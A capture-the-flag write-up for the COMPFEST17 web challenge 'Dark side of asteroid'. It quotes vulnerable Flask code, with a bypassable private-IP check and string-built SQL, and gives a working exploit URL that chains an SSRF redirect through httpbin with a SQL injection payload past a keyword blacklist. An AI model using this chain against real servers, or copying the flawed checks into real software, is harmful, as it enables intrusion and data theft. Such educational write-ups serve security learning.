


# WEB

## Dark side of asteroid
**author:** jay   
**Instance web page:** http://ctf.compfest.id:7302   

> something seems wrong???????

### Chall Overview

So when I opened the web, it showed a login/register page. After registering and logging in, I landed on the dashboard. Heading over to the Profile tab, there's a **Photo URL** field — and the hint is pretty clear, that's where the flag is hiding.



The profile page has a Photo URL field. The server does `requests.get(<photo_url>)` and saves the response as the "photo". But before fetching, there's an `is_private_url()` checker that blocks private hosts (like 127.0.0.1, 10.x, 192.168.x). Here's the code:

```python
def is_private_url(url: str):
    hostname = urlparse(url).hostname
    if not hostname:
        return True
    ip = socket.gethostbyname(hostname)
    return ipaddress.ip_address(ip).is_private
```

And it's used in the `/profile` route:

```python
if request.method == 'POST':
    photo_url = request.form['photo_url']
    try:
        if is_private_url(photo_url):
            raise Exception("Direct access to internal host is forbidden.")

        os.makedirs(os.path.join('static', 'uploads'), exist_ok=True)

        resp = requests.get(photo_url, timeout=5)
        content_type = resp.headers.get('Content-Type', '')
        filename = f"{session['username']}_profile_fetched"
        filepath = os.path.join('static', 'uploads', filename)

        with open(filepath, 'wb') as f:
            f.write(resp.content)

        conn.execute(
            'UPDATE users SET profile_picture=?, profile_type=? WHERE username=?',
            (f'uploads/{filename}', content_type, session['username'])
        )
        conn.commit()

        if not content_type.startswith('image/'):
            try:
                error_preview = resp.text[:500]
            except Exception as e:
                error_preview = f"[!] Error reading content: {e}"

    except Exception as e:
        error_preview = f"[!] Error fetching image: {e}"
```

There's also an internal panel at `/internal/admin/search` (only accessible from 127.0.0.1) that returns "admin secrets" including the FLAG, but it's locked down:

```python
@app.route('/internal/admin/search')
def internal_admin_search():
    if request.remote_addr != '127.0.0.1':
        return "Access denied", 403

    conn = get_db_connection()
    try:
        search_raw = request.args.get('q', '')
        if search_raw == '':
            query = "SELECT secret_name, secret_value FROM admin_secrets WHERE access_level <= 2"
        else:
            search = filter_sqli(search_raw)
            query = f"SELECT secret_name, secret_value FROM admin_secrets WHERE secret_name LIKE '{search}' AND access_level <= 2"
```

The `filter_sqli()` function blacklists a bunch of stuff and even requires the string `access_level` to be in the payload:

```python
def filter_sqli(search_raw: str) -> str:

    blacklist = [
        'union', 'select', 'from', 'where', 'insert', 'delete', 'update', 'drop', 'or', ' ',
        'table', 'database', 'schema', 'group', 'order', 'by', ';', '=', '<', '>','||','\t'
    ]

    search_lower = search_raw.lower()

    for word in blacklist:
        if word in search_lower:
            abort(403, description="SQL injection attempt detected: Blacklisted word found.")

    if 'access_level' not in search_lower:
        abort(403, description="SQL injection attempt detected: Invalid payload structure")

    return search_lower
```

So the situation is:

- The profile page gives us SSRF, and the internal panel has the juicy data — but
- directly hitting 127.0.0.1 is **blocked** by `is_private_url()`
- while the internal panel **only** accepts requests from 127.0.0.1

### Exploit

1. Login as usual
2. Go to the **Profile** page and find the **Photo URL** field
3. Fill it with a public redirector URL pointing to the internal admin search + a SQLi payload that passes the filter

I used:

```
https://httpbin.org/redirect-to?url=http%3A%2F%2F127.0.0.1%3A5000%2Finternal%2Fadmin%2Fsearch%3Fq%3Dflag%27%250A--access_level
```

Why httpbin? Because:

- It passes the private IP check (since the initial host is httpbin.org, a public IP)
- `requests.get()` follows the redirect to 127.0.0.1
- The payload `flag'%0A--access_level` comments out the rest of the query (the `--` makes everything after it a SQL comment, and `access_level` is in there just to satisfy the filter check)
- The response gets returned and shown as **error preview** on the Profile page

andd boom:



### Flag

`COMPFEST17{you_lov3_ez_s5rf_and_s1mpl3_inject_r1gh7???}`